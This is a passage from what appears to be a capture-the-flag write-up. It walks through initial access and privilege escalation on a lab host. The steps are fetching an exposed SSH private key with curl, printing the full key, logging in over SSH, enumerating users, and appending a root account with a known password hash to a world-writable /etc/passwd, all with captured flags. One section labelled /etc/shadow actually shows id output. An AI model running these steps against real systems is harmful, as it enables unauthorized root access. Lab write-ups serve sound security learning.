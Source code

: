   ```
- **Notes**: Trying various different nmap scans `-sT -sX` etc and various timeout intervals yield no results, it's a hard filtered port, likely accessible locally from a web/reverse shell.

## 4. Privilege Escalation and 

### 4.1 Initial Access

- **Using the Private Key**:
   ```
   curl http://13.40.110.252/portfolio_one-page-template/.ssh/id_ed25519
  -----BEGIN OPENSSH PRIVATE KEY-----
   b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
   QyNTUxOQAAACAe1sKEMCCig7Q0ZW5Qdu/cg/wspJLMLBO9puEG1pbLYwAAAJij6Mx/o+jM
   fwAAAAtzc2gtZWQyNTUxOQAAACAe1sKEMCCig7Q0ZW5Qdu/cg/wspJLMLBO9puEG1pbLYw
   AAAECAO7jrO8DIkMbeCcll0I/iOlt4I+5TMpkLAOw2VF5jkh7WwoQwIKKDtDRlblB279yD
   /CykkswsE72m4QbWlstjAAAAFHJvb3RAaXAtMTcyLTMxLTYtMTIwAQ==
  -----END OPENSSH PRIVATE KEY-----
   ```
- **SSH**:
  ```
  ssh -i key BillyTheKid@13.40.110.252
  BillyTheKid@ip-172-31-14-224:~$
  BillyTheKid@ip-172-31-14-224:~$ ls
  Flag_1  Message_from_your_friendly_neighbourhood_root
  BillyTheKid@ip-172-31-14-224:~$ cat Flag_1
  
  1 of 3 Billy The Kid Flag : fdoQ#9G#%R6yo_JL
  ```

### 4.1 Enumeration as BillyTheKid
    
  - **/etc/shadow**:  
    ```
    uid=0(root) gid=0(root) groups=0(root)
    uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),105(lxd)
    uid=1001(BillyTheKid) gid=1001(BillyTheKid) groups=1001(BillyTheKid),100(users)
    uid=1002(Magaluf2012) gid=1002(Magaluf2012) groups=1002(Magaluf2012),100(users)
    ```
     - **Notes**: Magaluf2012, another user and potential target.

- **/etc/passwd** I am unsure if this was intended to be writable.
	```
	ls -la /etc/passwd
	-rwxrwxrwx 1 root root 2017 Jul  2  2024 /etc/passwd
	```
	```
	openssl passwd -1 -salt sad sad
	echo 'haxor:$1$sad$.7dpkEM4DAn0Cz0Rp8Aha1:0:0::/root:/bin/bash' >> /etc/passwd
	su haxor
	root@ip-172-31-14-224:~# whoami
	root

	root@ip-172-31-14-224:~# cat Flag_3
	3 of 3 I am Groot : C3f#7-LsRNn^U78-

	root@ip-172-31-14-224:~# cat /home/Magaluf2012/Flag_2
	2 of 3 Magaluf! : 6Bj*9-sp&R

	```
 

		 
